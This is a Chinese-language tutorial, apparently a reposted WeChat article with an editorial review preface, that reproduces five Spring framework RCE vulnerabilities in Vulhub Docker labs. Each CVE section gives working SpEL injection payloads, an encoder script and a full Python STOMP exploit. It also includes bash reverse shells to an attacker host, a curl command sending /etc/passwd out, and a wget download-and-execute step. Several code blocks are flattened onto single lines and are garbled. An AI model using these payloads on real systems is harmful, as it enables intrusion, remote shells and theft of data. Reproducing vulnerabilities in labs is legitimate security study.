## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列五个受影响范围，1270 与其他文有边界冲突；环境说明使用 Python2/pip 和双渠道 compose

代码与实验材料：509 行全文，包括完整长编码表达式；多个 Python 和 Java 块丢换行，截图依赖明显；未运行

来源证据范围：微信原文和 Vulhub，部分补丁描述只有截图，无逐项原始 commit

- **结论使用边界（1）**：关键 PoC 代码被压平失效；依据：4977 生成器从 shebang 到 print 同一行；1270 全 Python 程序一行且 shebang 吞掉后文。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：漏洞判定混淆功能页与漏洞；依据：8046 称访问 /customers/1 返回页面则存在漏洞，仅能确认示例接口。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：补丁可暴力破解结论缺量化证据；依据：4977 称随机六位前缀只要请求足够多就失效，未说明生命周期、熵或实际可行性。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（4）**：参数与代码排版破损；依据：1273 表单 repeated=111&amp;Password=111 与重复密码字段不符；8046 两条 bash 命令拼接；Java 尾部有转义大括号。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **操作与副作用边界（5）**：实验副作用未交代；依据：wget 写 /tmp/1 然后执行、回连与数据外传，缺恢复和隔离要求。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# spring 常见漏洞总结

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4zynsLR-2oiewOMzVo7-dA)

本文将对 spring 常见的漏洞进行总结。  

简介
==

Spring 的英文翻译为春天，可以说是给 Java 程序员带来了春天，因为它极大的简化了开发。得出一个公式：Spring = 春天 = Java 程序员的春天 = 简化开发。最后的简化开发正是 Spring 框架带来的最大好处。

Spring 是一个开放源代码的设计层面框架，它是于 2003 年兴起的一个轻量级的 Java 开发框架。由 Rod Johnson 创建，其前身为 Interface21 框架，后改为了 Spring 并且正式发布。Spring 是为了解决企业应用开发的复杂性而创建的。它解决的是业务逻辑层和其他各层的松耦合问题，因此它将面向接口的编程思想贯穿整个系统应用。框架的主要优势之一就是其分层架构，分层架构允许使用者选择使用哪一个组件，同时为 J2EE 应用程序开发提供集成的框架。Spring 使用基本的 JavaBean 来完成以前只可能由 EJB 完成的事情。然而，Spring 的用途不仅限于服务器端的开发。从简单性、可测试性和松耦合的角度而言，任何 Java 应用都可以从 Spring 中受益。简单来说，Spring 是一个分层的 JavaSE/EE full-stack(一站式) 轻量级开源框架。Spring 的理念：不去重新发明轮子。其核心是控制反转（IOC）和面向切面（AOP）。

Spring 框架包含的功能大约由 20 个小模块组成。这些模块按组可分为核心容器 (Core Container)、数据访问 / 集成(Data Access/Integration)、Web、面向切面编程(AOP 和 Aspects)、设备(Instrumentation)、消息(Messaging) 和测试(Test)。如下图所示：



漏洞环境搭建
======

这里我为了方便，使用的是 vulhub 搭建 docker 进行漏洞复现

首先安装 curl 和 docker

```
sudo apt install curl
sudo apt install docker.io

docker -v //查看是否安装成功
```



然后安装 python 和 pip 环境，命令如下

```
sudo apt install python
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python get-pip.py

pip -V //查看是否安装成功
```



然后再安装 docker-compose

```
pip install docker-compose
sudo apt install docker-compose
docker-compose -v
```





到这个地方 docker 环境就已经搭建好了，这时候需要从 github 上把 vulhub 的漏洞环境给 clone 下来，这里直接 clone 网不太好，我就直接下载下来了 copy 到了靶机上

```
git clone https://github.com/vulhub/vulhub.git
```

下载好之后进入 spring 漏洞环境，这里看到有 5 个 CVE 漏洞，我们一个一个来



cve-2016-4977
=============

Spring Security OAuth RCE(cve-2016-4977)，是为 Spring 框架提供安全认证支持的一个模块，在 7 月 5 日其维护者发布了这样一个升级公告，主要说明在用户使用`Whitelabel views`来处理错误时，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。漏洞的发现者在 10 月 13 日公开了该漏洞的挖掘记录

影响版本
----

1.0.0-1.0.5、2.0.0-2.0.9

漏洞分析
----

这个漏洞的触发点也是对用户传的参数的递归解析，从而导致 SpEL 注入，可是两者的补丁方式大不相同。Springboot 的修复方法是创建一个 NonRecursive 类，使解析函数不进行递归。而 SpringSecurityOauth 的修复方法则是在前缀 ${前生成一个六位的字符串，只有六位字符串与之相同才会对其作为表达式进行解析。然而如果请求足够多，这种补丁也是会失效的。

这里直接查看补丁情况



可以看到在第一次执行表达式之前程序将`$`替换成了由`RandomValueStringGenerator().generate()`生成的随机字符串，也就是`${errorSummary} -> random{errorSummary}`，但是这个替换不是递归的，所以`${2334-1}`并没有变。

然后创建了一个`helper`使程序取`random{}`中的内容作为表达式，这样就使得`errorSummary`被作为表达式执行了，而`${2334-1}`因为不符合`random{}`这个形式所以没有被当作表达式，从而也就没有办法被执行了。

不过这个 Patch 有一个缺点：`RandomValueStringGenerator`生成的字符串虽然内容随机，但长度固定为 6，所以存在暴力破解的可能性。

漏洞复现
----

首先进入 CVE-2016-4977 的 docker 环境



访问 url，输入 admin/admin

```
http://192.168.1.10:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test
```



出现以下界面则存在漏洞



使用 github 上找到的 poc 对传入值进行处理

```
#!/usr/bin/env pythonmessage = input('Enter message to encode:')poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])for ch in message[1:]: poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)poc += ')}'print(poc)
```



这里我传入一个 whoami，返回了一个 payload



将这个 payload 拼接到之前的网址里面访问可以发现，这里返回了一个`[java.lang.UNIXProcess@f2e3e13]`，说明代码已经执行了

```
http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105)))}&client_id=acme&scope=openid&redirect_uri=http://test
```



这里使用 curl 发送一个请求即可得到回显得内容

```
curl 192.168.1.2:5555 -d "$(cat /etc/passwd)"
```



这里再使用 nc 监听尝试反弹 shell



使用到 bash 反弹，这里需要绕过 exec() 变形

```
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1
```

使用 http://www.jackson-t.ca/runtime-exec-payloads.html 进行 payload 处理



将处理后的命令再放入 poc.py



得到新的 payload 并拼接到网址里面

```
http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test
```

然后再访问这个网站即可得到反弹 shell



CVE-2017-4971
=============

Spring Web Flow 框架远程代码执行 (CVE-2017-4971) 漏洞，是由于 Spring Web Flow 的数据绑定问题带来的表达式注入，从而导致任意代码执行。

影响版本
----

2.4.0-2.4.4、Older unsupported versions are also affected

漏洞分析
----

view 对象处理用户事件，会根据 HTTP 参数绑定相应的 model



如果 model 没有设置`BinderConfiguration`, 则会调用`addDefaultMappings`函数



进一步查看`addDefaultMappings`函数，可以发现输入参数以`fieldMarkerPrefix`(“_”) 开头，则会调用`addEmptyValueMapping`函数



若`useSpringBeanBinding`参数设置为`false`, 则 `expressionParser`将设置为`SpelExpressionParser`对象的实例，而不是`BeanWrapperExpressionParser`对象的实例。当调用`getValueType`函数时，`SpelExpressionParser`对象将执行表达式，触发任意代码执行



漏洞复现
----

首先进入 CVE-2017-4971 的 docker 环境



点击登录

这里列出了一些登录账户，这里随便使用一个登录即可



登录之后显示如下界面


然后访问 http://192.168.1.10:8080/hotels/1，点击`Book Hotel`


这里要把信用卡和名字都填一下，然后点击`Proceed`



进入如下页面，此处用 bp 抓包



bp 抓包如下所示



这里构造一个 bash 反弹的 payload

```
&_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.1.2/5555 0>%261")).start()=vulhub
```

打开 nc 监听端口



把构造的 payload 放入抓到的包里发送



即可收到反弹 shell



CVE-2017-8046
=============

Spring-Data-REST-RCE(CVE-2017-8046)，`Spring Data REST`对 PATCH 方法处理不当，导致攻击者能够利用 JSON 数据造成 RCE。本质还是因为 spring 的 SPEL 解析导致的 RCE

影响版本
----

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3 Spring Boot version < 2.0.0M4 Spring Data release trains < Kay-RC3

漏洞分析
----

这里直接从补丁分析，从官方的描述来看就是就是 Spring-data-rest 服务处理 PATCH 请求不当，导致任意表达式执行从而导致的 RCE。首先来看下补丁，主要是 evaluateValueFromTarget 添加了一个校验方法 verifyPath，对于不合规格的 path 直接报异常退出，主要是 property.from(pathSource,type) 实现，基本逻辑就是通过反射去验证该 Field 是否存在于 bean 中



漏洞复现
----

进入 CVE-2017-8046 的 docker 环境



访问 http://192.168.1.10:8080/customers/1 返回如下界面则存在漏洞



这里先对`customers/1`这个页面 bp 抓包，还是通过 bash 反弹，通过处理后得到命令

```
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

因为这里执行的代码被编码为十进制位于 new java.lang.String(new byte[]{xxxxxx}) 中，所以需要对 bash 命令转成十进制编码

使用 python 进行编码处理，在 python 中转十进制的方法为`",".join(map(str, (map(ord,"命令"))))`

```
",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}"))))
```



得到十进制后放入 bp 包里面进行构造

```
[ { "op": "replace",    "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,117,77,105,56,49,78,84,85,49,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname",   "value": "vulhub"  }]
```

构造后如图所示



发包即可得到反弹 shell



CVE-2018-1270
=============

Spring Messaging 命令执行漏洞 (CVE-2018-1270)，Spring 框架中的 **spring-messaging** 模块提供了一种基于 WebSocket 的 STOMP 协议实现，STOMP 消息代理在处理客户端消息时存在 SpEL 表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

影响版本
----

Spring Framework 5.0 - 5.0.5 Spring Framework 4.3 - 4.3.15

漏洞分析
----

由`expression`，`getValue`，`setValue`造成的代码执行，造成这种命令执行是由 Spring 的 SPEL 表达式造成的



SPEL 命令执行有两种方式，一是静态方法，二是 new 对象

再看一下 spring-boot-messaging 实现中的代码

```
Expression expression = sub.getSelectorExpression();if (expression == null) {    result.add(sessionId, subId);} else {    if (context == null) {        context = new StandardEvaluationContext(message);        context.getPropertyAccessors().add(new DefaultSubscriptionRegistry.SimpMessageHeaderPropertyAccessor());    }    try {        if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {            result.add(sessionId, subId);        }    } catch (SpelEvaluationException var13) {        if (this.logger.isDebugEnabled()) {            this.logger.debug("Failed to evaluate selector: " + var13.getMessage());        }    } catch (Throwable var14) {        this.logger.debug("Failed to evaluate selector", var14);    \}\}
```

那么一是可以利用`sub.getSelectorExpression()`得到 selector 的表达式，二是利用`Boolean.TRUE.equals(expression.getValue(context, Boolean.class))`获取表达式的值，从而造成命令执行

漏洞复现
----

进入 CVE-2018-1270 的 docker 漏洞环境



访问 http://192.168.1.10:8080/gs-guide-websocket



这里直接使用前辈们写好的 exp，注意修改一下 bash 命令和靶机地址即可

```
#!/usr/bin/env python3import requestsimport randomimport stringimport timeimport threadingimport loggingimport sysimport json logging.basicConfig(stream=sys.stdout, level=logging.INFO) def random_str(length):    letters = string.ascii_lowercase + string.digits    return ''.join(random.choice(letters) for c in range(length))  class SockJS(threading.Thread):    def __init__(self, url, *args, **kwargs):        super().__init__(*args, **kwargs)        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'        self.daemon = True        self.session = requests.session()        self.session.headers = {            'Referer': url,            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'        }        self.t = int(time.time()*1000)     def run(self):        url = f'{self.base}/htmlfile?c=_jp.vulhub'        response = self.session.get(url, stream=True)        for line in response.iter_lines():            time.sleep(0.5)         def send(self, command, headers, body=''):        data = [command.upper(), '\n']         data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))                 data.append('\n\n')        data.append(body)        data.append('\x00')        data = json.dumps([''.join(data)])         response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)        if response.status_code != 204:            logging.info(f"send '{command}' data error.")        else:            logging.info(f"send '{command}' data success.")     def __del__(self):        self.session.close()  sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.start()time.sleep(1) sockjs.send('connect', {    'accept-version': '1.1,1.0',    'heart-beat': '10000,10000'})sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",    'id': 'sub-0',    'destination': '/topic/greetings'}) data = json.dumps({'name': 'vulhub'})sockjs.send('send', {    'content-length': len(data),    'destination': '/app/hello'}, data)
```

首先还是 bash 编码



修改 exp 中的靶机 ip 和反弹命令

```
sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",
```

如图所示



运行 poc.py 即可得到反弹 shell



CVE-2018-1273
=============

Spring Data Commons 远程命令执行 (CVE-2018-1273)，当用户在项目中利用了 Spring-data 的相关 web 特性对用户的输入参数进行自动匹配的时候，会将用户提交的 form 表单的 key 值作为 Spel 的执行内容而产生漏洞

影响版本
----

Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10) Spring Data REST 2.6 - 2.6.10 (Ingalls SR10) Spring Data Commons 2.0 to 2.0.5 (Kay SR5) Spring Data REST 3.0 - 3.0.5 (Kay SR5)

漏洞分析
----

这里直接看补丁进行分析，这是一个 spel 表达式注入漏洞。补丁的内容如下：



补丁大致就是将 StandardEvaluationContext 替代为 SimpleEvaluationContext，由于 StandardEvaluationContext 权限过大，可以执行任意代码，会被恶意用户利用。

SimpleEvaluationContext 的权限则小的多，只支持一些 map 结构，通用的 jang.lang.Runtime,java.lang.ProcessBuilder 都已经不再支持。

漏洞复现
----

首先进入 CVE-2018-1273 的 docker 环境



访问 http://192.168.1.10:8080/users 并用 bp 抓包



这里随便填一下 Username 跟 Password



生成一个 shell.sh 文件

```
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1
```



用 python 起一个 http 服务，并构造 payload 下载 shell.sh 文件保存在 / tmp / 目录下，名称为 1

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.1.2:8000/shell.sh")]=111&password=111&repeated=111&Password=111
```



nc 打开端口监听再构造 payload 进行命令执行即可收到反弹 shell

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/bash /tmp/1")]=111&password=111&repeated=111&Password=111
```



加下方 wx，拉你一起进群学习


往期推荐

[

什么？你还不会 webshell 免杀？（二）


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247499857&idx=1&sn=b49ca696334f2161e7311ad625ee84c6&chksm=ce677aedf910f3fb0fa061a7d3b403980dfccb2fc59acf0aec87bb722b90c6715241448cb86c&scene=21#wechat_redirect)

[

内网环境下的横向移动总结


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247499769&idx=1&sn=e52725ea95e63ca860815d26304bf2da&chksm=ce674545f910cc535e5028081bc0c2bdc99fb2040c9d357f1bc15e347b7835e579ea9741e24f&scene=21#wechat_redirect)

[

什么？你还不会 webshell 免杀？（一）


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247498204&idx=1&sn=6d1196d195193296ac413bc64e5a71c4&chksm=ce674360f910ca763cb59c834b63e7bc010a7020ba4ef06c5be05d0b8f0dbc78b6dd485b451a&scene=21#wechat_redirect)

[

利用卷影拷贝服务提取 ntds.dit


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247498091&idx=1&sn=5d3a86dab1bc6d0d97755d67de3e164e&chksm=ce6743d7f910cac115dd184a777cfea6a2a5a7a759d51dfc108b6c75bf1c42aa3ebc4dae07ff&scene=21#wechat_redirect)

[

从 mimikatz 抓取密码学习攻防


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247497664&idx=1&sn=c63231e4cfca59a548b9d1de4bd66417&chksm=ce674d7cf910c46ac33e994d91486e197ed884461646096a0e4d0eeaf289e7adaf2c8097d7e0&scene=21#wechat_redirect)

[

shellcode 编写探究


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247497564&idx=1&sn=e061aea7457034672babe21d307c5a0b&chksm=ce674de0f910c4f66c5c05653005337f7df136b03a757a1549920086d1bbd5467904e59e0ca1&scene=21#wechat_redirect)

[

windows 消息机制详解


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247497563&idx=1&sn=d02e171994a3cf914fd41d91e7f3f560&chksm=ce674de7f910c4f1a743226847722370202de0b1ef537f4102f2179d9197b23f92f7de8c7f82&scene=21#wechat_redirect)

[

自删除技术详解


](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247497473&idx=1&sn=b56bc8bf42442f8917f5903f470fbc77&chksm=ce674dbdf910c4ab7b5b8205d29e381774b69f3a4e8c23fdad5da0eaba7cc0d8f00f95d7c03b&scene=21#wechat_redirect)

  ** 红队蓝军 ** 一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。 78 篇原创内容  公众号


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
